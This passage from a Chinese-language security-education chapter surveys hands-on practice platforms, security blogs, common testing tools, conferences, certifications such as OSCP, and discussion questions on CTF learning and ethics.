- **TryHackMe**（https://tryhackme.com/）：引导式学习，初学者首选
- **HackTheBox**（https://www.hackthebox.com/）：综合渗透测试练习，中高级用户
- **PentesterLab**（https://pentesterlab.com/）：从Unix基础到高级Web安全
- **OverTheWire**（https://overthewire.org/wargames/）：经典安全挑战（Bandit、Natas）
- **CryptoHack**（https://cryptohack.org/）：密码学交互式学习
- **pwnable.kr**（http://pwnable.kr/）：二进制安全入门
- **pwnable.tw**（https://pwnable.tw/）：高质量二进制挑战
- **LetsDefend**（https://letsdefend.io/）：蓝队/SOC分析师实战训练
- **CyberDefenders**（https://cyberdefenders.org/）：蓝队和取证分析挑战

#### 技术社区与博客

- **安全客**（https://www.anquanke.com/）：安全技术文章和漏洞分析
- **先知社区**（https://xianzhisecurity.com/）：高质量的安全研究文章
- **GitHub Security Lab**：GitHub官方安全研究团队的博客和工具
- **PortSwigger Research Blog**：Web安全前沿研究
- **Project Zero Blog**：Google零日漏洞研究团队
- **HackerOne Hacktivity**：公开的漏洞报告，学习真实漏洞发现过程

### 5.3 工具链全景

安全工具是实战能力的倍增器。以下按使用场景分类介绍核心工具：

#### 渗透测试工具链



#### 工具详细对比

**Web安全测试：**

| 工具 | 功能 | 费用 | 替代品 |
|------|------|------|--------|
| **Burp Suite** | Web应用安全测试的瑞士军刀：代理拦截、漏洞扫描、爬虫、Repeater | 社区版免费，Pro版$449/年 | OWASP ZAP（免费） |
| **sqlmap** | 自动化SQL注入检测和利用 | 免费开源 | Havij（已过时） |
| **ffuf** | 高速Web Fuzzer，用于目录枚举、参数fuzz | 免费开源 | dirsearch、gobuster |
| **Nuclei** | 基于模板的漏洞扫描器，社区模板库庞大 | 免费开源 | — |

**二进制安全：**

| 工具 | 功能 | 费用 | 特点 |
|------|------|------|------|
| **Ghidra** | 逆向工程平台，支持反编译 | 免费（NSA开源） | IDA Pro的最佳免费替代 |
| **pwntools** | Python CTF/Pwn工具库 | 免费开源 | exploit开发的标准化工具 |
| **GDB + pwndbg** | 调试器 + 增强插件 | 免费开源 | Linux二进制调试标准配置 |
| **ROPgadget** | 自动搜索ROP gadgets | 免费开源 | ROP链构造必备 |

**网络分析：**

| 工具 | 功能 | 费用 | 特点 |
|------|------|------|------|
| **Wireshark** | 网络协议分析 | 免费开源 | 网络取证的事实标准 |
| **tcpdump** | 命令行抓包 | 免费 | 轻量级，适合服务器环境 |
| **Nmap** | 网络扫描和主机发现 | 免费开源 | 安全测试的第一步 |

### 5.4 社区与持续学习

安全是一个需要终身学习的领域。以下是一些有助于持续学习的渠道：

**学术会议（关注最新研究）：**
- **Black Hat**：全球最大的安全会议，每年在拉斯维加斯举办
- **DEF CON**：极客文化浓厚的安全会议，CTF比赛是重头戏
- **POC/POCX**：韩国知名安全会议
- **HITB（Hack In The Box）**：亚太地区的知名安全会议
- **KCon**：国内知名安全会议，聚焦漏洞挖掘和攻防研究
- **ISC互联网安全大会**：国内大规模安全会议

**播客与视频：**
- **Darknet Diaries**：真实安全事件故事，制作精良，适合通勤收听
- **LiveOverflow**：YouTube频道，CTF和安全研究的高质量教程
- **John Hammond**：YouTube频道，CTF解题和安全工具教程
- **IppSec**：YouTube频道，HackTheBox退役机器的详细解题视频
- **13Cubed**：YouTube频道，数字取证和蓝队技能教程
- **NetworkChuck**：YouTube频道，网络安全入门和实战教程

**认证路径（职业发展参考）：**

```text
入门级认证：
├── CompTIA Security+（安全基础认证，全球认可度高）
├── eJPT（eLearnSecurity Junior Penetration Tester，实操导向）
└── CREST Practitioner（CREST初级，欧洲市场认可）

中级认证：
├── OSCP（Offensive Security Certified Professional）→ 渗透测试"金标准"
├── CEH（Certified Ethical Hacker）→ 业界知名但争议较大
├── CREST Registered Penetration Tester
└── HTB CPTS（Certified Penetration Testing Specialist）→ 新兴认证

高级认证：
├── OSEP（Offensive Security Experienced Penetration Tester）→ 高级渗透
├── OSED（Offensive Security Exploit Developer）→ exploit开发
├── OSCE3（Offensive Security Certified Expert 3）→ 综合高级认证
├── CREST Certified Web Application Tester
└── CISSP（Certified Information Systems Security Professional）→ 管理方向
```

**OSCP认证详解：**

OSCP是渗透测试领域最有价值的认证之一，也是难度最高的入门级认证之一：

- **考试形式**：24小时实操考试，在隔离网络中对多台机器进行渗透
- **通过标准**：总分100分中需获得60分以上，且必须从独立机器（非AD环境）中获取至少一个完整分数
- **备考建议**：Offensive Security的PEN-200课程 + 50+台HTB/THM机器练习
- **时间投入**：通常需要3-6个月的全职备考
- **薪资影响**：持有OSCP认证的安全工程师平均薪资比无认证者高20-30%

## 六、思考题与讨论

### 6.1 深度思考题

1. **理论与实践的关系。** 建构主义强调"主动构建知识"，但初学者面对未知领域时往往无从下手。如何在"自主探索"和"有指导的学习"之间找到平衡？TryHackMe的引导式教学和HackTheBox的自主探索分别适合什么样的学习阶段？

2. **CTF的局限性。** CTF比赛中的漏洞通常是人为设计的、有明确解法的。真实世界的安全问题往往没有"flag"——你不知道系统是否真的安全，也不知道你是否找到了所有漏洞。如何弥补这种差距？CTF技能在多大程度上能迁移到实际工作中？

3. **工具依赖问题。** 现代安全工具越来越自动化（Nuclei一键扫描、sqlmap自动化注入）。过度依赖工具会导致什么问题？一个只会用工具的安全从业者和一个理解底层原理的安全从业者有什么区别？

4. **商业化与教育公平。** 优质的安全学习资源越来越多地被锁定在付费订阅后面（HTB VIP、PentesterLab订阅）。这对安全人才的培养有什么影响？免费平台（如PortSwigger Academy）的模式是否可持续？

5. **AI对安全行业的冲击。** 大语言模型已经能辅助编写exploit、分析漏洞代码、甚至自动完成简单的CTF题目。这将如何改变安全从业者的核心竞争力？哪些能力是AI短期内无法替代的？

### 6.2 开放讨论问题

1. **实战平台能否替代真实经验？** 企业招聘安全岗位时，CTF获奖经历和实际项目经验哪个更有价值？为什么？

2. **国内vs国际平台。** CTFHub、攻防世界等国内平台与HTB、THM等国际平台在内容质量、学习体验、社区活跃度方面有什么差异？国内平台的优势在哪里？

3. **安全方向的选择。** Web安全、二进制安全、云安全、AI安全——哪个方向的就业前景最好？选择方向时应该考虑哪些因素？

4. **攻防伦理。** 在实战平台上学到的技术如果被用于非法目的，平台是否应该承担责任？如何在"培养安全人才"和"防止技术滥用"之间取得平衡？

5. **实战平台的未来。** 随着AI技术的发展，未来的实战平台可能是什么形态？是否会演变为"AI对抗AI"的训练场？

### 6.3 实践行动建议

理论学习之后，最重要的一步是行动。以下是按优先级排序的实践建议：

1. **立即行动：注册平台账号。** 今天就注册TryHackMe或HackTheBox账户，完成第一道题目。不要等到"准备好了"——你永远不会完全准备好
2. **选择一个方向并坚持。** Web安全入门门槛最低，建议初学者从Web方向开始。选定后至少坚持3个月再考虑是否切换
3. **建立学习日志。** 每次练习后花15分钟写笔记，记录解题思路、踩过的坑、学到的新知识。半年后回看，你会惊讶于自己的成长
4. **参加一次CTF比赛。** 不要等到"足够强"才参赛。CTFtime上每周都有比赛，找一个面向初学者的比赛（如CTFtime的Beginner标签），和队友一起体验
5. **建立个人工具库。** 在GitHub上创建一个私有仓库，收集和整理你常用的脚本、payload、cheatsheet
6. **输出倒逼输入。** 在博客或社区上写解题报告或技术文章。教是最好的学——当你能给别人讲清楚一个漏洞，说明你真正理解了它

---

> **本章寄语：** 实战平台不是目的，而是手段。它的真正价值不在于你完成了多少台靶机或拿了多少分，而在于它培养了你面对未知问题时的分析能力、动手能力和学习能力。网络安全是一个需要终身学习的领域，技术在变，攻击手法在变，但"主动探索、持续实践、善于总结"的学习方法论不会过时。选择适合自己的平台和路径，保持好奇心和韧性，你终将在这个领域找到属于自己的位置。
